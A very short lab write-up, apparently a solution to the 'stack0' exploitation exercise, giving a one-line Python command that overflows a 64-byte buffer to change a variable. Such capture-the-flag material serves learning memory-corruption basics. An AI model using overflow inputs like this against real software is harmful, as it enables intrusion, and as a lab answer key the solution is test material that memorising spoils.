 #Stack 0 

Basic buffer overflow to modify the variable "modified"

```
python -c 'print "A" * 64 + "1"' |./stack0 
```
